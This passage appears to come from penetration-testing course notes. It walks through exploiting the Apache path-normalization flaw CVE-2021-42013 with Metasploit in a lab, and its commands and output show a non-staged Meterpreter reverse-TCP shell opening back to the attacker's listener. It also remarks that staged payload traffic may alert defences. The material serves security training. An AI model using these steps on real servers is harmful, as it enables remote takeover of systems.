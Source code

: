 ```
   8   payload/linux/x64/meterpreter/reverse_tcp                          normal  No     Linux Mettle x64, Reverse TCP Stager
   9   payload/linux/x64/meterpreter_reverse_http                         normal  No     Linux Meterpreter, Reverse HTTP Inline
   10  payload/linux/x64/meterpreter_reverse_https                        normal  No     Linux Meterpreter, Reverse HTTPS Inline
   11  payload/linux/x64/meterpreter_reverse_tcp                          normal  No     Linux Meterpreter, Reverse TCP Inline
   ...

msf6 exploit(multi/http/apache_normalize_path_rce) > set payload 11
payload => linux/x64/meterpreter_reverse_tcp

msf6 exploit(multi/http/apache_normalize_path_rce) > show options
...

Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.119.2    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
...
```
+ Above shows that there are various Meterpreter payloads compatible for the currently activated exploit module

At this point, we should note that all Meterpreter payloads are staged
+ However, the output of **show payloads** contains staged and non-staged payloads
+ The difference between those two types is how the Meterpreter payload is transferred to the target machine
+ The non-staged version includes all components required to launch a Meterpreter session while the staged version uses a separate first stage to load these components
+ Loading these components over the network creates quite some traffic and may alert defensive mechanisms
+ In situations where our bandwidth is limited or we want to use the same payload to compromise multiple systems in an assessment, a non-staged Meterpreter payload comes in quite handy
+ For the rest of the Module, we'll use the non-staged version whenever we use a Meterpreter payload

After selecting the 64-bit non-staged version of _`meterpreter_reverse_tcp`_ as payload, we can review its options
+ For this particular payload, the same options apply as for the previous payloads we used

Now, let's run the exploit module with our Meterpreter payload and once we obtain a Meterpreter command prompt, we'll display its available commands by entering **help**:
```
msf6 exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://192.168.50.16:80 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://192.168.50.16:80 - Attempt to exploit for CVE-2021-42013
[*] http://192.168.50.16:80 - Sending linux/x64/meterpreter_reverse_tcp command payload
[*] Meterpreter session 4 opened (192.168.119.4:4444 -> 192.168.50.16:35538) at 2022-08-08 05:20:20 -0400
[!] This exploit may require manual cleanup of '/tmp/GfRglhc' on the target


meterpreter > help

Core Commands
=============
```